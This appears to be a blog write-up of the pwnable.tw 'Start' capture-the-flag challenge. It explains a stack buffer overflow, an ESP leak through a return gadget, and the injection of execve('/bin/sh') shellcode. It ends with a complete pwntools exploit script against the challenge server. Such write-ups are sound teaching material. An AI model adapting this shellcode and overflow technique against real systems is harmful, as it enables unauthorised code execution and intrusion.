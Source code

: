 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

>Start \[100 pts]  
Just a start.
>
>nc chall.pwnable.tw 10000



First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file (I only use it for open IDA correctly). Now we should open disassembler like IDA Pro.

![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)

We have two funcion: `_start` and `_exit`.
As you can see, it firsts push esp, and push address `_exit` fuction, then push 5 times hex numbers. If you look closer by convert it to string, that's the string "Let's start the CTF:" at the beginning of the program. 

_**`int 80` is a system call in Linux, you can read it more at [here](http://asm.sourceforge.net/syscall.html).
It depends on the number before to make a move. E.g: the number before first instruction `int 80` at `0804808F` is 4, it means [sys_write](http://asm.sourceforge.net/syscall.html#4); the number before the second is 3, it is [sys_read](http://asm.sourceforge.net/syscall.html#3).**_

The program lets you type 60 bytes, but it only accepts 20 bytes. Therefore, you can see maybe it has buffer overflow here.

First payload I use buffer overflow to make it returns to ROP gadget (0x08048087).

{: .box-note}
**Note:** Payload 1: "aaaaaaaaaaaaaaaaaaaa\x87\x80\x04\x08"

And then it will print out esp address in stack. Having that address, I can put the shellcode into that.
When comes the `retn;` instruction, ESP is pointing to address has 0x08048087, so next EIP is 0x08048087.



\[About shellcode] You can find shellcode at [here](http://shell-storm.org/shellcode/). For me, I use [this](http://shell-storm.org/shellcode/files/shellcode-752.php).


{: .box-note}
**Note:** Payload 2: 'A' * 20 + p32(esp_add + 20) + shellcode

If you are wondering why in payload (maybe only me, so sad) `esp_add + 20`, it's because that where shellcode is. Why is 20? The program will do this instruction: `add esp 14h`.

Source code for pwn: Run it with python.
{% highlight python linenos %}
from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  esp_add = u32(esp_add[0:4])

  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)

  conn.interactive()
  conn.close()
{% endhighlight %}




